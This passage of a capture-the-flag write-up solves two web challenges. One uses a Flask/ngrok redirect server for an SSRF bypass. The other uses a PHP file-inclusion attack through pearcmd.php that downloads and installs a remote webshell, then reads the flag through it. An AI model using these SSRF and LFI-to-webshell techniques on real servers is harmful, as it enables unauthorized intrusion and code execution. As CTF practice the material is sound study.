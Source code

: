 solve:
```py
from flask import Flask, redirect
from pyngrok import ngrok, conf
import threading
import time

app = Flask(__name__)

@app.route('/exploit')
def malicious_redirect():
    return redirect("http://secret.flag.thjcc.tw/flag/", code=302)

def run_flask():
    app.run(port=5000, host='0.0.0.0')

if __name__ == '__main__':
    conf.get_default().auth_token = "gullible"

    threading.Thread(taarget=run_flask, daemon=True).start()

    time.sleep(2)

    tunnel = ngrok.connect(5000, proto="http")
    public_url = tunnel.public_url

    print(f"\n[+] ngrok tunnel established at: {public_url}")

    while True:
        time.sleep(1)
```
then fetch
```
http://chal.ctf.scint.org:10068/fetch?scheme=https:/<idk-lmao>.ngrok-free.app/exploit?&host=:3&path=:3
```
then you win! **`THJCC{--->redirection--->evil-websites--->redirection--->bypass!--->flag!}`**

## i18n
```php {hl_lines=7}
<?php

if(!isset($_GET['lang'])){
    header('location: /?lang=zh_tw');
}else{
    $lang = $_GET['lang'];
    include "./lang/$lang.php";
}
?>
```
obviously file inclusion vuln\
considering null byte injection got fixed in php 5.3.2 and chall uses php 8.2, i thought i could only include .php\
ran locally and found `/usr/local/lib/php/pearcmd.php` which i can use to download [payload](https://gist.github.com/joswr1ght/22f40787de19d80d110b37fb79ac3985)
```
http://localhost:1337/?lang=../../../../usr/local/lib/php/pearcmd&+install+-R+/tmp+https://gist.githubusercontent.com/joswr1ght/22f40787de19d80d110b37fb79ac3985/raw/c871f130a12e97090a08d0ab855c1b7a93ef1150/easy-simple-php-webshell.php
```
then we get rce!
```
http://node2.dynchal.p23.tw:25850/?lang=../../../../tmp/tmp/pear/download/easy-simple-php-webshell&cmd=cat%20../../../flag
```